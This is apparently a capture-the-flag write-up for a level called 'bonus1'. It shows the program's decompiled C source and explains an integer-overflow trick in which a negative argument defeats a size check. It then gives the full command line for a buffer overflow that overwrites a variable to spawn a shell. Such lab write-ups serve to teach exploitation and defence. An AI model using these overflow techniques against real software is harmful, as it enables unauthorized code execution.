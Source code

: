 # Bonus 1

We have a program who take arguments:

```sh
$ ./bonus1 
Segmentation fault (core dumped)
$ ./bonus1 42
$ ./bonus1 42 42
```

By decompiling the code, we find:
```c
int main(int argc, char **argv)
{
    int arg = atoi(argv[1]);
    int test;
    if (arg > 9) {
        test = 1;
    } else {
        char buf[40];
        memcpy(&buf, argv[2], arg * 4);
        if (arg == 0x574f4c46) {
            execl("/bin/sh", "sh");
        }
        test = 0;
    }
    return test;
}
```

The problem is the next one: we need to set "arg" to 0x574f4c46 to start a shell, but the atoi prevent the value to be superior to 9.

We also see a buffer of 40, maybe we can perform a buffer overflow but same problem, the number of bytes we can put with the memcpy depends on arg who's still limited to 9.

To start, we can bypass the comparison with 9 by passing a negative value who rotates with unsigned value like: -2147483637 who will give 44 once casted.

```sh
$ python -c "print((-2147483637 * 4) & 0xFFFFFFFF)"
44
```
So know, we can bypass the first comparison, and define a size bigger than the buffer, we can perform our overflow!

./bonus1 -2147483637 $(python -c 'print("A" * 40 + "\x46\x4c\x4f\x57")')

